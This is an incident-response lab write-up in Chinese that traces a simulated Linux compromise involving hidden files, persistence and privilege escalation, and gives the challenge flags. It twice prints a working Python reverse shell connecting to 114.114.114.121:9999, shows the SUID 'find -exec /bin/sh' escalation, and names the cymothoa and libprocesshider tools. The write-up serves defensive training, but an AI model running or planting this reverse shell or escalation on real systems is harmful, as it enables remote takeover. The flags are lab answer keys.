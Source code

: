 ```yaml
---
title: '玄机应急响应-第三章'
date: 2024-06-08 13:00:00 +0800
categories: [应急响应,玄机靶场]
tags: ['']
---
```

# 权限维持-linux权限维持-隐藏

## 一,黑客隐藏的隐藏的文件 完整路径md5

发现`/tmp`下存在可疑的`.temp`文件

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{109ccb5768c70638e24fb46ee7957e37}**

## 二,黑客隐藏的文件反弹shell的ip+端口 {ip:port}

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{114.114.114.121:9999}**

## 三,黑客提权所用的命令 完整路径的md5 flag{md5} 

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:33::/home/ctf:
sslh:x:104:108::/nonexistent:/bin/false
```

> $ cat /etc/passwd

查看用户列表

```shell
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

> $ find / -perm -u=s -type f 2>/dev/null

切换到`ctf`用户发现`find`命令可以提权

`/usr/bin/find . -exec /bin/sh \; -quit`

> **flag{7fd5884f493f4aaf96abee286ee04120}**

## 四,黑客尝试注入恶意代码的工具完整路径md5

```shell

root@xuanji:/tmp/.temp/libprocesshider# find / -name '.*' 2>/dev/null|grep -v 'sys'
/etc/.pwd.lock
/etc/cron.d/.placeholder
/etc/cron.daily/.placeholder
/etc/cron.hourly/.placeholder
/etc/cron.monthly/.placeholder
/etc/cron.weekly/.placeholder
/etc/init.d/.legacy-bootordering
/etc/skel/.bash_logout
/etc/skel/.bashrc
/etc/skel/.profile
/etc/mysql/conf.d/.keepme
/home/ctf/.bash_logout
/home/ctf/.bashrc
/home/ctf/.profile
/home/ctf/.bash_history
/opt/.cymothoa-1-beta
/root/.bashrc
/root/.profile
/root/.bash_history
/root/.viminfo
/root/.ssh
/root/.cache
/run/secrets/kubernetes.io/serviceaccount/..data
/run/secrets/kubernetes.io/serviceaccount/..2024_06_08_05_37_51.4144190794
/tmp/.temp
/tmp/.temp/libprocesshider/.git
/tmp/.temp/libprocesshider/.gitignore
/usr/share/php/.registry
/.dockerenv
```

搜索发现`/opt/.cymothoa-1-beta`是一个注入工具,`/opt/.cymothoa-1-beta/cymothoa`

> **flag{087c267368ece4fcf422ff733b51aed9}**

## 五,使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}

```shell
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      10/sshd
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      11/apache2
tcp        0      1 10.244.4.78:53068       114.114.114.121:9999    SYN_SENT    588/python3
tcp        0      0 10.244.4.78:22          10.244.0.1:45653        ESTABLISHED 446/1
tcp6       0      0 :::22                   :::*                    LISTEN      10/sshd
```

> $ netstat -lanpt

运行后查看网络连接

```shell
/usr/bin/python3./1.py
```

> $ cat /proc/588/cmdline

```shell
/usr/bin/python3
```

> $ which python3

```shell
lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4
```

> $ ls -lah /usr/bin/python3

> **flag{/usr/bin/python3.4}**









